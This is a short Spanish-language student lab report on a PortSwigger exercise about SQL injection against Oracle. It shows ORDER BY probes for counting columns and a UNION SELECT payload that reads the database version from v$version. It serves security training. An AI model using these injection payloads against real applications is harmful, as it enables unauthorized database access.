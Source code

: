 # README_CHRISTIAN_SANGUCHO_DIAZ
# INFORME LABORATORIO https://portswigger.net/

## Laboratorio:
Ataque de inyección SQL, consultando el tipo y la versión de la base de datos en Oracle

## Objetivo:
Conseguir la versión de Oracle

##Consulta Original: 
SELECT * FROM articles WHERE category = ‘Gifts’


## Consulta Manipulada:
Se busca el número de columnas con las siguientes instrucciones
‘ ORDER BY 1
‘ ORDER BY 2
‘ ORDER BY 3


! [Imagen búsqueda de número de columnas con error]()
! [Imagen búsqueda de número de columnas]()

## Consulta para obtener la versión de Oracle
=Gifts' UNION SELECT banner, 'NULL' FROM v$version--
! [Imagen de la Version Oracle]
